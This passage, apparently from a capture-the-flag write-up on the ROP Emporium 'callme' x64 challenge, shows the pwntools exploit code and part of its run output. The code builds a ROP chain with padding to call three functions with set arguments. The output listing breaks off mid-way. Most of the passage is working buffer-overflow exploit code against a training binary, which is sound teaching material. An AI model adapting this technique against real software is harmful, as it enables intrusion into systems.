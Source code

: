 ```python
rop.raw(arg1)
rop.raw(arg2)
rop.raw(callme_one)

# Invoke callme_two(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)
rop.raw(pop_rdi_pop_rsi_pop_rdx_ret)
rop.raw(arg0)
rop.raw(arg1)
rop.raw(arg2)
rop.raw(callme_two)

# Invoke callme_three(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)
rop.raw(pop_rdi_pop_rsi_pop_rdx_ret)
rop.raw(arg0)
rop.raw(arg1)
rop.raw(arg2)
rop.raw(callme_three)

# Dump the final ROP chain
info(rop.dump())

# Build the payload
offset = 40
padding = b"A" * offset
payload = b"".join([
    padding,
    rop.chain()
])

# Pwn!
io.clean()
io.sendline(payload)
io.interactive()
```

One thing to note is that after verifying the existence of all gadgete with `radare2`, we codified the exploit to leverage `pwntools` to search for those same gadgets and build the ROP chain.

Below is the output from the final exploit:

```
$ python3 exploit.py
[+] Starting local process './callme' argv=[b'./callme'] : pid 6377
[DEBUG] PLT 0x4006d0 puts
[DEBUG] PLT 0x4006e0 printf
[DEBUG] PLT 0x4006f0 callme_three
[DEBUG] PLT 0x400700 memset
[DEBUG] PLT 0x400710 read
[DEBUG] PLT 0x400720 callme_one
[DEBUG] PLT 0x400730 setvbuf
[DEBUG] PLT 0x400740 callme_two
[DEBUG] PLT 0x400750 exit
[*] '/home/kali/ctf/rop-emporium/callme/x64/callme'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
[*] Loaded 17 cached gadgets for './callme'
[DEBUG] PLT 0x4006d0 puts
[DEBUG] PLT 0x4006e0 printf
[DEBUG] PLT 0x4006f0 callme_three
[DEBUG] PLT 0x400700 memset
```